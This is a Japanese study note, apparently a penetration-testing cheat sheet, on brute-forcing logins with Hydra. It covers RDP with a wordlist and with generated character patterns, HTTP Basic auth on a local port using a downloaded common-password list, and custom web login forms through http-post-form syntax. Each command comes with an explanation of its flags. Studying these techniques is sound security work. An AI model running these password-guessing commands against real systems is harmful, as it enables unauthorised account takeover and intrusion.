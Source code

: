 | **RDP**           | hydra -l admin -P /path/to/password_list.txt rdp://192.168.1.100                                             |
辞書を作らなくてもこんな感じでもできる
- 6〜8文字の全パターンを自動生成（英小文字・英大文字・数字）
```bash
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```

- **このコマンドがやってること**
	- `-l administrator` → ログイン名として「administrator」を指定
	- `-x 6:8:...` → 6〜8文字の全パターンを自動生成（英小文字・英大文字・数字）
	- `192.168.1.100` → 攻撃対象のIPアドレス
	- `rdp` → RDPサービスを対象に指定

##### Basic認証に対するブルートフォース
辞書の取得
```sh
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
```

ブルートフォースの実行
```shell-session
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81
```
- `-l basic-auth-user` → ログイン試行に使うユーザー名を指定
- `-P 2023-200_most_used_passwords.txt` → 使用するパスワードリスト
- `127.0.0.1` → ターゲットのIP（この場合はローカルホスト）
- `http-get /` → HTTPのGETメソッドでルートパス（`/`）を攻撃対象に
- `-s 81` → ポート番号を明示的に指定（通常80だが、ここでは81を使用）


##### カスタムログインフォームへのブルートフォース
- カスタムログインフォームとは？
	- Webサイトが使っている、独自デザインのログイン画面
	- 見た目は違っても、内部的には同じように動作していることが多い

- Hydraで攻撃できる理由
	- Hydraはログインフォームに自動でユーザー名とパスワードを送って試せるツール
	- `http-post-form`というモードを使えば、フォーム送信に特化したブルートフォースが可能

- 攻撃のために必要な情報
	- ログイン先のURLパス（例：`/login` や `/`）
	- 入力項目の名前（例：`username`, `password`）
	- 失敗時に表示されるメッセージ（例：`Invalid credentials`）

- 情報の集め方
	- ブラウザで開いて右クリック →「検証」ツールでHTMLコードを見る
	- 「ネットワーク」タブでPOSTリクエストを確認
	- Burp Suiteなどのプロキシツールでリクエスト内容を詳細に調べる

- Hydraコマンドの基本構文
	- `hydra -L ユーザー名リスト -P パスワードリスト ターゲットIP http-post-form "パス:パラメータ:条件"`

- パラメータの書き方
	- 例：`/:username=^USER^&password=^PASS^:F=Invalid credentials`
		- `username=^USER^` → ユーザー名入力欄
		- `password=^PASS^` → パスワード入力欄
